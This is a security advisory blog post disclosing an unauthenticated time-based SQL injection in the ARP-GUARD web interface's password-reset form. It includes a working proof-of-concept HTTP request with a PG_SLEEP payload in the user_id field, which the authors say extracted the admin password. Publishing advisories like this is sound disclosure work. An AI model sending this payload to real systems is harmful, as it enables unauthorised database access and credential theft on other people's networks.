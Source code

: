 ```yaml
---
layout: post
title: "CVE-2019-xxxx: SQL-Injection in ARP-GUARD"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: ISL Internet Sicherheitslösungen GmbH
- Product: ARP-GUARD
- Version: 4.0.0-5
- Vulnerability: SQL-Injection
- Fixed Version: 4.0.0-7

# Background

ARP-GUARD is a Network Access Control Solution to protect company networks against from unauthorised access. It identify allowed devices via their MAC address or certificates (802.1X).

From the vendor's website:
"ARP-GUARD makes sure that users don't use any unauthorised notebooks, smartphones or even wireless access points. Our software solution protects your IT infrastructure from malware-infected external devices and your intellectual property from unauthorised access! Our security solution provides reliable protection against unauthorised access to the internal LAN and WLAN, as well as the Internet. With ARP-GUARD, only authorized devices are granted access to your network!"

# Issue Description

While analyzing the implementation of the ARP-GUARD web interface, one SQL-Injection vulnerability has been identified, which can be exploited in order to read dump all database data, also the username and passwords for the web application. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.

Please consider the following HTTP request:

__HTTP-Request__

~~~ http
POST /login/forgot1 HTTP/1.1
Host: 10.10.10.1
Connection: close
Content-Length: 119
Cache-Control: max-age=0
Origin: https://10.10.10.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML,
  like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Referer: https://10.10.10.1/login/forgot1
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: session_id=whocares; S=whocares

answer=myniceanwser&check=Pr%C3%BCfen&username=username&user_id=
(SELECT 7529 FROM PG_SLEEP(10))
~~~

It was possible to extract the admin password for the web application via the time-based SQL-Injection.

# CVE

[CVE-2019-xxxx](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-xxxx)

# CVSSv3 Base Score

CVSS Base Score: __8.1__

CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
